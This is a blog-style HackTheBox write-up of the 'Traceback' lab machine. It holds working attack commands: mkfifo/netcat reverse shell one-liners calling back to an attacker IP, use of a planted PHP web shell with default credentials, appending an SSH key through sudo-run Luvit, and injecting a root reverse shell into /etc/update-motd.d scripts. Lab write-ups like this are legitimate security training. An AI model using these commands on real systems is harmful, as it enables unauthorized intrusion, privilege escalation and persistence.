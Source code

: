 ```yaml
---
layout: post
title:  "HTB Traceback writeup"
date:   2020-08-15 14:07:19
categories: [tutorial]
comments: true
tags: [easy, administrative, traceback, luvit, web server, ssh, key, sysadmin, root, write, shell, nmap, hackthebox]
---
```


Hey guys, this is my writeup for the `HackTheBox` machine `Traceback`. This is my first writeup so it won't be perfect. This was an Easy rated Linux box, The machine starts of with a `web server` that has been `compromised` and defaced, the hacker leaves a `backdoor` behind "for all the net" :), so we do some guess work and find the shell left behind and that's the `foothold`. after accessing the `reverse shell` we do some recon and find that we can run `luvit` with `sudo privileges`, i then write an `ssh key` to the `sysadmins` ssh folder and get a shell as the `sysadmin`, for `root` we have a cron running with administrative privileges that runs everytime on a ssh login, we have the ability write the files that are executed when the cron runss.

![Traceback](/img/tr_con.png)
<!--more-->

So first things first, i run an nmap scan

{% highlight bash %}

  # Nmap 7.80 scan initiated Sun Aug 16 14:15:10 2020 as: nmap -sC -sV -T4 -oA nmap/traceback -Pn 10.10.10.181
  Nmap scan report for 10.10.10.181
  Host is up (0.15s latency).
  Not shown: 998 closed ports
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
  |   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
  |_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-title: Help us
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

{% endhighlight %}

Usually i runa full port scan after this one, but there were no other open ports. So we have ssh and an apache web server, looking at the web server, we have an interesting index page....

![web page](/img/tr_web_page_index.png)

So now we have to find this backdoor now, so next i look at the page source, and there's an interesting comment.

![page source](/img/tr_page_source.png)

So i copied the comment and googled it, it brought me to a [github repository][shells] with a list of web shells, i could've done a better job at guessing which web shell was running on the server but i instead decided to start at the bottom of the list entering each file name, luckily the one i was looking for was second last, but i would normally run a gobust.

{% highlight bash%}
gobuster dir -u http://10.10.10.181/ -w [wordlist] -t 25 -x php,txt -outfile.txt
{% endhighlight %}

![shell](/img/tr_shell.png)

So we got the hit from smevk.php, so the default credentials are admin:admin from looking at the source code of the reverse shell.

![system](/img/tr_smevk.png)

So this php reverse shell script seems to have a lot of funtionality, but i prefer looking around using a shell, we're able to run system commands on one of the form fields so i set a netcat listener and give myself a reverse shell on the machine.

The reverse shell command :
{% highlight bash %}

$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 9001>/tmp/f

{% endhighlight %}

The listener :
{% highlight bash %}

rlwrap nc -lvnp 9001

{% endhighlight %}

`rlwrap` allows to use the arrow keys on the netcat shell.

We get a shell :) and use python to get the tty.

![shell](/img/tr_shell_webadmin-1.png)

After this shell i spent a lot of time looking around around, which is why i think doing writeups is weird because we don't show the rabbit hoels we went down XD. but i get it the wriiteup would be a 50 mintue read if we did :)

So since we're running as `webadmin` i check he's home folder, we find a note.

![note](/img/tr_note.png)

So usually on linux i run `LinEnum` and `LinpPeas`, so on the linpeas we have find interesting stuff.... 

So i copy the binaries to my working directory and start a `python` webserver.

{% highlight bash %}
python3 -m http.server 8080
{% endhighlight %}

On the box i use whatever i can to download files, but i like using `wget`
{% highlight bash %}
wget http://10.10.14.114:8080/[file_name]
{% endhighlight %}

![sudo](/img/tr_sudo_perms.png)

I could've also got this with just `sudo -l`, but sometimes when you get a shell you forget the simplest things.

So we can execute the `Luvit` program with sysadmin privileges, Luvit allows us to run `Lua` code, my first idea was to execute system commands through Lua, after a gazillion tries i gave up because it just wouldn't work. So then i attempted to write my piublic ssh key to `authorized_keys` after a few minutes of figuring out how to do that in `Lua`.

Creating an ssh key is easy, just run...

{% highlight bash %}
ssh-keygen -f traceback
{% endhighlight %}

This is the code to append my ssh key to the authorized_keys file

![code](/img/tr_code.png)

Then executed the Lua script with sysadmin privileges.

{% highlight bash %}
sudo -u sysadmin /home/sysadmin/luvit spek.lua
{% endhighlight %}

Then i try login to ssh with the key, but before i do that i have to change the permissions on the key

{% highlight bash %}
chmod 600 traceback
{% endhighlight %}

And i was in as `sysadmin`

![ssh](/img/tr_ssh_sysadmin.png)

On the `LinPeas` output i also saw something else that was interesting, we could write files in the `/etc/update-motd.d`
when i login with ssh run parts executes all the scripts in the directory, these scripts are also backep up every 30 seconds  , 
i found this out after some time analyzing what was happening. i think this was also a way for the hacker to have a way to have root privileges in an easy and hidden way.

![ls_w](/img/tr_ls_w.png) 

After seeing that i ran [Pspy][pspy], a tool for analyzing linux system processes. This is when i saw the backups of the scripts in `/etc/update-motd.d` where being made every 30 seconds.

![ps_py](/img/tr_pspy.png)

This is also means if i modify the one of scripts in this directory it will be removed in 30 seconds.
when i log in with ssh run-parts executes the scripts in `/etc/update-motd.d`.

![run-parts](/img/tr_ssh_pspy.png)

So my method to get root here is simeple now, i have to put a reverse shell command inside one of these scripts owned and executed by root and have a listener.

{% highlight bash %}
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 9002>/tmp/f
{% endhighlight %}

After making this modification i have to login with ssh during the 30 second period of the scripts not being backed up, after i login i get the root shell.

![root](/img/tr_root_shell.png)

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[shells]: https://github.com/TheBinitGhimire/Web-Shells
[pspy]: https://github.com/DominicBreuker/pspy